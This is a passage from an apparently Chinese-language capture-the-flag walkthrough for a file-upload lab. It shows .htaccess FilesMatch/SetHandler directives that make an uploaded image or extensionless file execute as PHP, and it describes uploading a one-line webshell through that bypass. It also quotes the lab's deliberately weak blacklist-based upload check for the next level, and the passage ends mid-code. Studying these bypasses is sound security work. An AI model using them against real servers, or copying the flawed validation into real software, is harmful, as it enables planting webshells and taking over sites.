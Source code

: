 
第三种、精确控制能被解析成php代码的文件，比较隐蔽
evil.gif即为上传的🐎名称+后缀

```
<FilesMatch "evil.gif"> 	#当前目录下，若匹配到evil.gif文件，则被解析成PHP代码执行

SetHandler application/x-httpd-php
AddHandler php5-script .gif    

</FilesMatch>
```

或

```
<FilesMatch "info">			#当前目录下，若匹配到名为info的文件，都会被解析为php代码
    SetHandler application/x-httpd-php
</FilesMatch>
```



### bypass

上传`.htaccess`文件：

```
<FilesMatch "info">
    SetHandler application/x-httpd-php
</FilesMatch>
```

然后上传名为info，任意后缀名的一句话🐎即可



## pass5（黑名单-利用.user.ini本地包含）

### 分析

在第四关基础上.htaccess也被禁用了

```php
$is_upload = false;
$msg = null;
if (isset($_POST['submit'])) {
    if (file_exists(UPLOAD_PATH)) {
        $deny_ext = array(".php",".php5",".php4",".php3",".php2",".html",".htm",".phtml",".pht",".pHp",".pHp5",".pHp4",".pHp3",".pHp2",".Html",".Htm",".pHtml",".jsp",".jspa",".jspx",".jsw",".jsv",".jspf",".jtml",".jSp",".jSpx",".jSpa",".jSw",".jSv",".jSpf",".jHtml",".asp",".aspx",".asa",".asax",".ascx",".ashx",".asmx",".cer",".aSp",".aSpx",".aSa",".aSax",".aScx",".aShx",".aSmx",".cEr",".sWf",".swf",".htaccess");
        $file_name = trim($_FILES['upload_file']['name']);
        $file_name = deldot($file_name);//删除文件名末尾的点
        $file_ext = strrchr($file_name, '.');
        $file_ext = strtolower($file_ext); //转换为小写
        $file_ext = str_ireplace('::$DATA', '', $file_ext);//去除字符串::$DATA
        $file_ext = trim($file_ext); //首尾去空
        
        if (!in_array($file_ext, $deny_ext)) {
            $temp_file = $_FILES['upload_file']['tmp_name'];
            $img_path = UPLOAD_PATH.'/'.$file_name;
            if (move_uploaded_file($temp_file, $img_path)) {
                $is_upload = true;
            } else {
                $msg = '上传出错！';
            }
        } else {
            $msg = '此文件类型不允许上传！';
```